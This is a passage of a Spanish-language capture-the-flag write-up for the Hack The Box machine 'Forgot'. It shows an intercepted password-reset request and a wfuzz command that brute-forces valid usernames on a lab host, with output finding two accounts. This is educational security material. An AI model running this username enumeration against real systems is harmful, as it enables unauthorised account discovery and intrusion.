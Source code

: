 Al introducir cualquiera al azar, en la respuesta aparece el mensaje ```Invalid Token```. Desde ```/forgot``` puedo enumerar usuarios

<img src="/writeups/assets/img/Forgot-htb/3.png" alt="">

Intercepto la petición para ver como se tramita

```null
GET /forgot?username=test HTTP/1.1
Host: 10.10.11.188
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
Referer: http://10.10.11.188/forgot
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: __hstc=37486847.cf2c0d7ce8a81d6638f7885e6ef7ea42.1686647908509.1686647908509.1686647908509.1; hubspotutk=cf2c0d7ce8a81d6638f7885e6ef7ea42; __hssrc=1; __hssc=37486847.5.1686647908510
Connection: close
```

Con ```wfuzz``` aplico fuerza bruta

```null
wfuzz -c -t 200 --sc=200 -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -H "Cookie: __hstc=37486847.cf2c0d7ce8a81d6638f7885e6ef7ea42.1686647908509.1686647908509.1686647908509.1; hubspotutk=cf2c0d7ce8a81d6638f7885e6ef7ea42; __hssrc=1; __hssc=37486847.5.1686647908510" 'http://10.10.11.188/forgot?username=FUZZ'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.188/forgot?username=FUZZ
Total requests: 10177

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000001640:   200        0 L      2 W        16 Ch       "cassie"                                                                                                                                        
000003316:   200        0 L      2 W        16 Ch       "faye"
```

